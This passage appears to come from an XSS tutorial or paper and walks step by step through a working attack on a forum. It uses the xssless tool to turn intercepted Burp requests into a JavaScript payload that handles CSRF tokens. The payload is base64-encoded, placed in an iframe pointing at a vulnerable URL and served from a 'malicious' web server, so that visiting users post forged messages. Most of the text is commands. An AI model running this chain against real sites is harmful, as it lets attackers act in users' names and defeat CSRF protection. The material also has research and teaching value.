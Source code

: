 Steps 1-4 I won't describe, burp is widely documented across the web.

Step 5 : In the requests that burp intercepted, we look for any parameter that might be a csrf token. It's usually obvious, and it certainly is here.

    #Create a file with the identifier of the csrf token(s)
    echo 'csrf_token' > params

Step 6 : Xssless is nice because we don't even have to have a deep look into what's going on. We could probably skip some requests, but we know that repoducing step by step what we recorded will work. We just need to tell it which parameters to adapt dynamically.

    #Run xssless, and feed him the list of crsf token(s) as well as the logs from burp.
    xssless -s -p params ../burp-logs/post-topic.burp > post-topic.js

You can see the resulting code here[Appendix2TODO](https://github.com/centime/xss-paper/blob/master/payloads/post-topic.js).

Step 7 : Now you can edit the payload to replace the title or content of the post you want. 

    #As we can see, in this example the post will have "I think" for title, and "I've been hacked." for content.
    grep content post-topic.js
        [...] &title=I+think&content=I%27ve+been+hacked+%3A%28 [...]

Just don't forget to url-encode your texts.

Step 8 : At this point we should run our payload through a js minifyer[4TODO]. Here we won't, for the sake of simplicity. To have a working exploit we need however the base64 of our payload, and to remove the script tag :
    
    #Well, remove the script tags and base64 the rest...
    grep -v script post-topic.js | base64 -w0 > post-topic.b64

Step 9 : Now, all we have to do is put it somewhere on internet, inside an iFrame pointing to the vulnerability, and bring authenticated users of our forum to visit it.

    #Insert the payload at the end of the vulnerable URL, and put it all in the src attribute of an iFrame
    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/post-topic.b64)'></iframe>" > malicious-website/post-topic.html

    #Start an instance of our malicious HTTP server, on localhost:1337
    cd malicious-website && python3 -m http.server 1337

Step 10 : profit !  
![Exploit : Post a message on behalf of a victim](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/post-topic.png)
    